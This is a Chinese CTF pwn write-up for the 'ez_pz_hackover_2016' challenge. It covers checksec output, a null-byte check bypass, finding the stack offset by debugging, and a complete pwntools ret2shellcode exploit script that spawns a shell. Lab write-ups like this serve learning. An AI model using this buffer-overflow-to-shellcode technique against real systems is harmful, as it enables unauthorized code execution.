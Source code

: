 ```yaml
---
title: 'ez_pz_hackover_2016'
date: 2023-12-30 13:00:00 +0800
categories: [control,ret2shellcode]
tags: [ctf,pwn]
---
```

```shell
bamuwe@qianenzhao:~$ checksec ez_pz_hackover_2016
[*] '/home/bamuwe/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

![image-20231230200735028](../assets/img/old_imgs/image-20231230200735028.png)

![image-20231230200746307](../assets/img/old_imgs/image-20231230200746307.png)

- 逻辑绕过
- `\x00`阶段
- 动态调试计算栈空间
- `ret2shellcode`

1. 栈保护全关,考虑`ret2shellcode`
2. 通过`\x00`绕过前置验证,进入`vuln`函数
3. `vuln`函数中,会把`&src`赋值给`dest`这其中存在漏洞

正常思路这里就可以构造`payload`了,但是这里`ida`分析出来的`dest`栈空间为`0x32`与实际不符合,我们需要动态调试手动查看栈空间

![image-20231230201124555](../assets/img/old_imgs/image-20231230201124555.png)

> 停在`nop`处查看栈

![image-20231230201222685](../assets/img/old_imgs/image-20231230201222685.png)

![image-20231230201722354](../assets/img/old_imgs/image-20231230201722354.png)

> 手动查找得到栈实际空间为`0x1a`

> distance计算栈之间的距离

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ez_pz_hackover_2016')
io = gdb.debug('./ez_pz_hackover_2016','break vuln')
elf = ELF('./ez_pz_hackover_2016')
io.recvuntil(b'Yippie, lets crash: ')
s_addr = int(io.recv(10),16)
print('s_addr',hex(s_addr))
payload1 = b'crashme\x00'
payload1 = payload1.ljust(0x1a,b'A')
payload1 += p32(s_addr-0x1c)+asm(shellcraft.sh())
io.sendlineafter('> ',payload1)
io.interactive()
```

`s`栈上的空间写不下`shellcode`所以直接把`shellcode`写在`ret`地址之后.

> ?这里的`s_addr`为什么要`-0x1c`还不了解,偏移后的位置正好是一个输入的栈的起始但为什么是这个值还不清楚.

这道题应该也可以通过泄露Libc的方式做,但是没有成功

```python
```
